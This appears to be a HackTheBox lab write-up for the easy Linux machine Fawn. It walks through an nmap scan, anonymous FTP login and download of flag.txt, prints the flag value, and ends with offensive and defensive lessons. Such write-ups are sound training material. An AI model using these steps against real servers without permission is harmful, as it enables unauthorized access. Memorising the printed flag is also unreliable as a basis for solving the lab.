



# HTB — Fawn (Easy/Linux)


## Summary

Fawn is a very easy Linux machine designed to introduce 
FTP enumeration and anonymous login exploitation. 
Nmap reveals an FTP service with anonymous login 
enabled and a flag.txt file directly accessible 
without authentication.

**Attack Chain:** Nmap → FTP Anonymous → flag.txt

---

## Reconnaissance

### Port Scan

```bash
nmap -sV -sC -O -oN nmap_fawn 10.129.92.125
```

**Results:**

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed
|_-rw-r--r-- 1 0 0 32 Jun 04 2021 flag.txt



Nmap directly reveals two critical pieces of 
information: anonymous FTP login is enabled, and a 
file called `flag.txt` is already visible in the 
directory listing.

---

## Exploitation — FTP Anonymous Login

```bash
ftp 10.129.92.125
# Username: anonymous
# Password: (empty)

ftp> ls -la
ftp> get flag.txt
ftp> exit
```



No exploitation required. The server accepts 
unauthenticated access and exposes sensitive files 
directly.

---

## Post-Exploitation — Flag

```bash
cat flag.txt
# 035db21c881520061c53e0536e44f815
```



---

## Lessons Learned

### Offensive Perspective
- Always check FTP for anonymous login — 
  it is one of the most common misconfigurations
- Nmap `-sC` scripts automatically test for 
  anonymous FTP and list directory contents
- FTP transmits all data including credentials 
  in plaintext — any network observer can intercept

### Defensive Perspective
- Disable anonymous FTP login unless explicitly required
- Use SFTP or FTPS instead of plain FTP
- Restrict FTP directory permissions — 
  no sensitive files should be accessible anonymously
- Monitor FTP access logs for anonymous login attempts

---

## Attack Chain Summary

NMAP — port 21 open, anonymous login detected
↓
FTP anonymous login — no password required
↓
flag.txt visible in directory listing
↓
get flag.txt
↓
FLAG ✅

---

## References
- [vsftpd Documentation](https://security.appspot.com/vsftpd.html)
- [HackTheBox — Fawn](https://app.hackthebox.com/machines/Fawn)
